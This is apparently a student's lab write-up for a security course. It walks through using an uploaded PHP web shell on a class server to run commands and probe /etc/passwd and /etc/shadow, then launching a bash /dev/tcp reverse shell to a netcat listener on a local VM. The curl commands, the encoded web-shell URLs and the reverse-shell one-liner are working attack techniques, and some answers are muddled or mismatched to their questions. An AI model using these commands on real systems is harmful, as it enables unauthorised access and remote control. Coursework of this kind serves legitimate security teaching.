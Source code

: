 # Our first reverse shell

**Name**: Palmy Klangsathorn

---

## Part 1: Installing a PHP web shell

### a. Explain how you can execute the Linux command whoami on the server using your webshell. What result do you get when you execute that command?

**Answer:** To execute the Linux command whoami on the server, I access my web shell by visiting the following URL: [http://danger.jeffondich.com/uploadedimages/klangsathornp-webshell.php?command=whoami](http://danger.jeffondich.com/uploadedimages/klangsathornp-webshell.php?command=whoami)

or do this in terminal

```bash
curl "http://danger.jeffondich.com/uploadedimages/klangsathornp-webshell.php?command=whoami"
```

The `command=whoami` part of the URL sends the `whoami` command to the PHP web shell, which uses the `system()` function in PHP to execute the command on the server. The result I get when I execute `whoami` is `www-data`. This shows that the web server is running under the `www-data` user, which is typical for web servers on Linux.

### b. What is this webshell's <pre> tag for? (And more to the point, what happens if you leave it out?)

**Answer:** The `<pre>` tag in HTML is used to format text with preserved whitespace, line breaks, and fixed-width font. In this web shell, using `<pre>` around the PHP code output would display the command output exactly as it appears on the server, including any indentation, line breaks, or spacing, making it easier to read. If the `<pre>` tag is left out, the output may appear condensed, and formatting could be lost, making it harder to interpret multiline command outputs or complex data.

---

## Part 2: Looking around

### a. What directory is danger's website located in?

**Answer:**

```bash
curl "http://danger.jeffondich.com/uploadedimages/klangsathornp-webshell.php?command=pwd"
```

I got `/var/www/danger.jeffondich.com/uploadedimages`

### b. What are the names of all the user accounts on danger.jeffondich.com? How do you know?

**Answer:**

```bash
curl "http://danger.jeffondich.com/uploadedimages/klangsathornp-webshell.php?command=ls"
```

Here are what i got, these are some examples of mine:

klangsathornp-dog.jpg
klangsathornp-dog1.png
klangsathornp-webshell.php
klangsathornp-webshell1.php
.
.
.

### c. Do you have access to the file /etc/passwd? What's in it?

**Answer:**

```bash
curl "http://danger.jeffondich.com/uploadedimages/klangsathornp-webshell.php?command=ls%20/etc/passwd"
```

I got this `curl: (56) Recv failure: Connection reset by peer`

### d. Do you have access to the file /etc/shadow? What's in it? (You'll have to look online for the answer to that second question, since the answer to the first is no.)

**Answer:** No, I don't

```bash
curl "http://danger.jeffondich.com/uploadedimages/klangsathornp-webshell.php?command=ls%20/etc/shadow"
```

I got this `/etc/shadow`, this output confirmed restricted access

### e. There may be some secret files scattered around. See how many you can find and report on your discoveries.

**Answer:** Search just specifically for files that start with a dot in their names (hidden files)

```bash
curl "http://danger.jeffondich.com/uploadedimages/klangsathornp-webshell.php?command=ls%20/var/www/danger.jeffondich.com/uploadedimages/%2E%2A"
```

### f. [Optional] Report on anything else interesting you discover.

**Answer:** Here is how to search specifically for files containing my name, klangsathornp, by using a command to filter filenames that match:

```bash
curl "http://danger.jeffondich.com/uploadedimages/klangsathornp-webshell.php?command=ls%20%2Fvar%2Fwww%2Fdanger.jeffondich.com%2Fuploadedimages%20%7C%20grep%20'klangsathornp'"
```

---

## Part 3: Setup for Part 4

sudo systemctl start apache2

---

## Part 4: launching a reverse shell

### a. What is the IP address of your Kali VM (the target machine)? How did you find out?

**Answer:**

In the Kali VM terminal, run the following command:

```bash
ip a
```

The IP address of my Kali VM is `192.168.64.2`

### b. What are the IP addresses of your host OS (the attacking machine)? How did you find out? Which one should you use to communicate with Kali and why?

**Answer:**

In my computer terminal, run:

```bash
ifconfig
```

Here, I got a long text, look at `bridge100: inet 192.168.64.1`.
IP addresses of my host OS is `192.168.64.1`

### c. On your host OS (the attacker), pick any port number between 5000 and 10000 and run nc -l -p YOUR_CHOSEN_PORT

**Answer:**

```bash
nc -l -p 6000
```

### d. In a browser on your host machine, use your web shell to go to this crazy URL.

**Answer:**

```url
http://192.168.64.2/klangsathornp-webshell.php?command=bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/192.168.64.1/6000%200%3E%261%22
```

### e. Go back and look at your nc -l -p terminal on your host OS (attacking machine). Do you have a shell now? Is it letting you execute commands on Kali? How do you know it's Kali?

**Answer:**

```bash
nc -l -p 6000
```

In the `nc -l -p 6000` terminal, I now have a shell prompt from the Kali machine. To verify, I typed commands like `whoami`. It returned the username of the Kali VM, confirming that I am executing commands on the Kali machine.

### f. What are all those % codes in the URL you used?

**Answer:** The `%` codes in the URL are URL-encoded characters, used to safely pass special characters within a URL. Here are just some of the examples of the `%` codes:

- `%20` is a space (` `)
- `%3E` is `>`
- `%26` is `&`
- `%2F` replaces slashes (/).
- `%7C` replaces the pipe (|).

These `%` codes ensure that the command is properly interpreted by the web server without issues caused by special characters.

### g. Write a brief description, probably including a diagram, explaining how this reverse shell is functioning.

**Answer:** A reverse shell allows an attacker (host OS) to gain control of a target machine (Kali) by setting up a listener on the host and initiating a connection from the target to the host. Here’s how it works:

1. **Listener Setup**: The host machine starts a `netcat` listener (`nc -l -p 6000`), waiting for an incoming connection from the target.
2. **Connection Initiation**: On the target machine (Kali), we use a specially crafted command via a web shell (accessed at `http://192.168.64.2/klangsathornp-webshell.php`) to run:
   ```bash
   bash -c "bash -i >& /dev/tcp/192.168.64.1/6000 0>&1"
   ```

---
